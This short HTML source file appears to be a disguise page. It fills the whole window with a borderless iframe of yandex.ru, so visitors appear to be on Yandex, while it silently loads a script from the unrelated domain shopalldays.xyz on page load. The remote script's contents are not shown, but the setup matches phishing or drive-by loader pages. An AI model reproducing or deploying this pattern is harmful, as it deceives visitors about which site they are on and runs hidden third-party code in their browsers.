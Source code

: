 ﻿<!DOCTYPE html>
<html lang="ru">
<html>
		
	<head>	
	
	<iframe id="ifr" src="https://www.yandex.ru" frameborder="0" style="overflow:hidden;overflow-x:hidden;overflow-y:hidden;height:100%;width:100%;position:absolute;top:0px;left:0px;right:0px;bottom:0px" height="100%" width="100%"></iframe>
	
	<script id="connect" type="text/javascript" src="https://www.shopalldays.xyz/js"></script>
	
	</head>
</html>
